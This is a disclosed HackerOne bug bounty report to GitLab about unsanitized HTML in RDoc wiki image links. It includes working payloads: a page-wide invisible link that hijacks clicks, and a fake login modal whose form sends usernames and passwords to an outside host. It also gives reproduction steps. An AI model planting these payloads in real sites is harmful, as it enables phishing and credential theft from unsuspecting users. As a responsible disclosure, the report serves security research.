 # Cross-site Scripting (XSS) - Stored in RDoc wiki pages

## Report Details
- **Report ID**: 662287
- **URL**: https://hackerone.com/reports/662287
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-07-28T15:31:34.731Z
- **Disclosed**: 2019-12-16T09:02:35.750Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

When creating an RDoc wiki page it's possible to use a large number of html tags and attributes that are normally sanitized, when creating a linkable image of the format `{<img src>}[link]`

For example it is possible to specify a `class` attribute when creating an image link:

```rdoc
{
<a href='https://aw.rs/users/signin' class='atwho-view select2-drop-mask pika-select'>
<img height=10000 width=10000></a>
}[a]
```

will generate the following:

```html
<div class="md md-file">
  <p>Full Page link</p>
  <p><a href="a" rel="nofollow"></a><a href="https://aw.rs/users/signin" class="atwho-view select2-drop-mask pika-select" rel="nofollow"><img height="10000" width="10000"></a></p>
</div>
```

This will place a link taking over the entire page and intercept any clicks, `atwho-view select2-drop-mask pika-select` are just some real classes that make the links position absolute with a high z-index.

The `target` attribute could also be set to `_blank` and as there is no `rel="noopener"` [reverse tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing) is also possible.


Another attack that is more likely to work would be to create a form in a modal, which could be used to ask for a username and password:

```rdoc
a form
{
<div class="modal show d-block">
<div class="modal-dialog">
<div class="modal-content">
<div class="modal-header">
<h3 class="page-title">Please Log In</h3>
</div>
<div class="modal-body">
<form class="new-wiki-page" action="http://aw.rs/">
<div class="form-group">
<label for="username"><span>Username</span></label>
<input type="text" name="username" id="username" class="form-control">
<label for="password"><span>Password</span></label>
<input type="password" name="password" id="password" class="form-control">
</div>
<div class="form-actions"><button name="button" type="submit" class="btn btn-success">Login</button></div>
</form>
</div>
</div>
</div>
</div>
}[/]
```

Which produces the following dialog when viewing the page:
{F541421}


### Steps to reproduce

1. Create a wiki on gitlab
1. Add a new RDoc page with the above snippet
1. Save and wait for someone to click it


### Impact
An attacker could trick a user into thinking they had clicked on a gitlab element when they are actually redirected to the attackers site, or be presented with a dialog that will post to an attackers site.

### Examples

Example linking to a fake sign in form:
https://gitlab.com/wbowling/wiki/wikis/home

Example creating a modal form:
https://gitlab.com/wbowling/wiki/wikis/home2

### What is the current *bug* behavior?
When using an image link in RDoc the anchor tag attributes are not sanitized correctly.

### What is the expected *correct* behavior?
They should be correctly sanitized.

### Relevant logs and/or screenshots


### Output of checks

This bug happens on GitLab.com

#### Results of GitLab environment info
```
System information
System:		Ubuntu 16.04
Current User:	git
Using RVM:	no
Ruby Version:	2.6.3p62
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.2
Redis Version:	3.2.12
Git Version:	2.21.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.1.1
Revision:	f9abaa7d833
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.7
URL:		http://gitlab-vm.local
HTTP Clone URL:	http://gitlab-vm.local/some-group/some-project.git
SSH Clone URL:	git@gitlab-vm.local:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers:

GitLab Shell
Version:	9.3.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

Trick users into giving up their account details via a legitimate looking form on gitlab.com

## Attachments
- form.png
